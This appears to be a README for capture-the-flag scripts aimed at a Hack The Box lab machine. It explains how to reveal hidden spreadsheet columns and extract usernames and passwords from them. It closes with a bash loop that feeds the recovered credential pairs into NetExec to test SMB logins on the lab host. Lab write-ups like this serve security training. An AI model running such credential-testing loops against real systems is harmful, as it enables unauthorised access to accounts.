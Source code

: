 # HTB Lantern

Scripts for [HTB Search](https://www.hackthebox.com/machines/search) machine.

---

## Usage

### show_all_columns.py
Script to read `.xlsx` files with hidden columns (_which is not the same as encrypted_) in Python. First, create a virtual environment and install `openpyxl` library there:
```shell-session
❯ python3 -m venv .venv_openpyxl

❯ source .venv_openpyxl/bin/activate

❯ pip3 install openpyxl
```
Once the environment is activated, run the script:

```shell-session
❯ python3 show_all_columns.py
```
You might need to change the path where `.xlsx` is located in the script.


### print_username_password.py
Saves users and hidden passwords from `.xlsx` file.
```shell-session
python3 print_username_password.py
```

Then, use a tool like [NetExec](https://www.netexec.wiki/) to check which pair of credentials are correct in a simultaneous `Bash` loop:
```shell-session
❯ paste phishing_users.txt phishing_passwords.txt | while read -r u p; do nxc smb research.search.htb -u $u -p $p | grep '\[+\]'; done
```
